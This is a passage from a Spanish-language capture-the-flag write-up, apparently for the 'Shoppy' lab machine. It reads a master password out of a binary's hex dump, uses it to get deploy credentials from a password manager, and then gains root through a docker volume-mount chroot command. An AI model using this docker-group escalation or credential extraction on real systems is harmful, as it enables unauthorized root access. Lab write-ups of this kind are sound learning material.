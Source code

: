 ```

```
2050 20706173 73776f72 643a2000 00530061   password: ..S.a
 2060 006d0070 006c0065 00000000 00000000  .m.p.l.e........
```

Asi que volvemos a ejecutar el binario pasandole eso y vemos que nos muestra las credenciales de deploy:

```
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Una vez dentro y si pones el comando ```ìd``` podemos ver como pertenecemos al grupo ```docker``` y podemos ejecutar el comando de docker para montar un contenedor:

```uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)```

Si buscamos en GFObins una manera de escalar privilegios nos encontramos que podemos montar un contenedor en ```/``` y consiguiendo acceso como root mientras tengamos la imagen ```alpine``` en docker.

Asi que ingresamos:

```docker run -v /:/mnt --rm -it alpine chroot /mnt sh```

Y ahora ya somos root y tenemos la flag:

![](/assets/img/shoppy/root.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/shoppy/waifu.gif)